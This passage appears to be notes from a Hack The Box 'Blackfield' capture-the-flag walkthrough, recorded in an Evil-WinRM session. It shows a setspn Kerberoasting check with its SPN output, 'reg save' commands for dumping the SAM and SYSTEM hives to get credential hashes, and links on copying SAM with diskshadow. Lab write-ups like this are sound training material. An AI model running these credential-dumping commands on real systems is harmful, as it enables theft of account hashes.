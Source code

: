 ### Check if it whether kerberoastable or not, which should be done first.. lol
```winrm
setspn -T blackfield.local -F -Q */*
```
```bash result
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> setspn -T blackfield.local -F -Q */*
Checking forest DC=BLACKFIELD,DC=local
CN=DC01,OU=Domain Controllers,DC=BLACKFIELD,DC=local
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC01.BLACKFIELD.local
        ldap/DC01.BLACKFIELD.local/ForestDnsZones.BLACKFIELD.local
        ldap/DC01.BLACKFIELD.local/DomainDnsZones.BLACKFIELD.local
        TERMSRV/DC01
        TERMSRV/DC01.BLACKFIELD.local
        DNS/DC01.BLACKFIELD.local
        GC/DC01.BLACKFIELD.local/BLACKFIELD.local
        RestrictedKrbHost/DC01.BLACKFIELD.local
        RestrictedKrbHost/DC01
        RPC/2a754031-e5c5-4e88-bb09-09aae693753c._msdcs.BLACKFIELD.local
        HOST/DC01/BLACKFIELD
        HOST/DC01.BLACKFIELD.local/BLACKFIELD
        HOST/DC01
        HOST/DC01.BLACKFIELD.local
        HOST/DC01.BLACKFIELD.local/BLACKFIELD.local
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/2a754031-e5c5-4e88-bb09-09aae693753c/BLACKFIELD.local
        ldap/DC01/BLACKFIELD
        ldap/2a754031-e5c5-4e88-bb09-09aae693753c._msdcs.BLACKFIELD.local
        ldap/DC01.BLACKFIELD.local/BLACKFIELD
        ldap/DC01
        ldap/DC01.BLACKFIELD.local
        ldap/DC01.BLACKFIELD.local/BLACKFIELD.local
CN=krbtgt,CN=Users,DC=BLACKFIELD,DC=local
        kadmin/changepw

Existing SPN found!
```
Not kerberoastable since no service accounts have SPNs assigned to them(the users you have and the Backup Operator user e.g. backup_svc). Just the DC and krbtgt.

### An Easier Way to extract a copy of the local SAM file hash
```winrm
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\system
```

nope reg.exe : ERROR: The system was unable to find the specified registry key or value.

### Extracting a copy of the Local SAM using diskshadow.exe and robocopy
* https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#copy-filesebackupprivilege
* https://pentestlab.blog/tag/diskshadow/
